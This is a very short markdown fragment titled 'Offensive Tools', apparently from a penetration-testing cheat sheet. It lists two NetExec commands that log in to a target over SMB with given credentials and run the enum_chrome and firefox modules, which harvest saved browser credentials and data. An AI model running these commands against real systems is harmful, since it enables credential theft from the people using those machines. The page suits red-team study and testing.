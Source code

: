 # Offensive Tools

## NetExec

```
$ netexec smb <IP> -u '<username>' -p '<password>' --local-auth -M enum_chrome
```

```
$ netexec smb <IP> -u '<username>' -p '<password>' --local-auth -M firefox
```